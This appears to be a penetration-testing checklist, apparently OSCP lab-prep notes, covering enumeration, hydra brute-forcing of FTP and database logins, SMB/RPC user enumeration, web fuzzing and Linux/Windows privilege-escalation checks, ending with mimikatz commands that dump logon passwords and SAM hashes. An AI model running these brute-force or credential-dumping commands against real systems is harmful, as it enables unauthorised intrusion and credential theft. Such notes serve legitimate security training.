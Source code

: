 ### Enumeration
```
IP=10.10.10.10
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
### Foothold
- 21
	- ftp anonymous@$IP
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
- DNS
	- nslookup
		- server $IP
		- 127.0.0.1
	- dig @$IP domain
		- If domain resolves
			- dig axfr @$IP domain
- RPC/ SMB
	- enum4linux $IP
	- crackmapexec smb $IP -u guest -p "" --rid-brute
	- crackmapexec smb $IP -u "" -p "" --pass-pol
	- rpcclient -U '' $IP
		- enumdomusers
		- queryusergroups RID
		- queryuser RID
- 445
	- smbclient -N -L //$IP
	- nmap --script smb-vuln* -p135,139,445 $IP
- SQL
	- Mysql
		- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt mysql://$IP
	- Postgres
		- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/postgres-betterdefaultpasslist.txt postgres://$IP
- 80
	- Default landing page
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Subomdain Brute force
		- wfuzz -u machine.name -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
		- knockpy machine.name
			- Run directory brute on all found subdomains
	- Vulnerability scan
		- nikto -h http://$IP
### PE
#### Linux
- USERNAME
	- id
	- Root drive directory
	- sudo -l
	- uname -a
	- getcap -r / 2>/dev/null
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
	- Users with console
	- netstat -ano
		- Active ports
	- Directories to check
		- /opt
			- Check GTFO Bins. Treated as SUID
		- /etc/crontab
	- linpeas
		- Possible Exploits
		- Interesting Files
	- pspy64
#### Windows
- USERNAME
	- whoami /all
	- Root drive directory
	- net user USERNAME
		- Check group memberships
	- systeminfo
		- `./wes.py ~/OSCP/boxes/BOX_NAME/systeminfo.txt  > ~/OSCP/boxes/BOX_NAME/systeminfo_exploits.txt`
	- history
		- (Get-PSReadLineOption).HistorySavePath
	- Users with console
	- Services
		- PS1: `Get-Service | Select-Object -Property Name, DisplayName, Status
		- Unquoted
			- cmd
				- wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
				- wmic service get name,displayname,pathname
			- PS1
				- Get-CimInstance -ClassName win32_service | Select Name,State,PathName
			- icacls Filepath before .exe
				- Looking for W or F
	- netstat -ano
		- Active ports
	- mimkatz
		- mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
		- mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
### Credentials
### Lessons Learned

